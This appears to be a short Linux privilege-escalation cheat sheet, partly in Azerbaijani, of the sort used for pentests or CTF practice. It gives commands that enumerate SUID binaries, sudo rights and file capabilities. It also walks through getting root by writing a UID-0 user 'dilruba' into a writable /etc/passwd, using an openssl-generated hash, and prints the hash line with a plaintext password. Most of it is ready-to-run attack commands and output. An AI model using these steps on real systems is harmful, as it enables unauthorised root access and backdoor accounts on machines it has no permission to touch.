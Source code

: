 ## SHOWING SUID
    find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə
Yaratma qaydası

    user7@polobox:/$ openssl passwd -1
    Password:
    Verifying - Password:
    $1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
    user7@polobox:/$ ^C
    user7@polobox:/$ nano /etc/passwd
    user7@polobox:/$ su dilruba

  Nəticə

    dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
    passwd----dil1123

Sudo icazələrini yoxlamaq
   
    sudo -l

Getcap
     
     getcap -r / 2>/dev/null
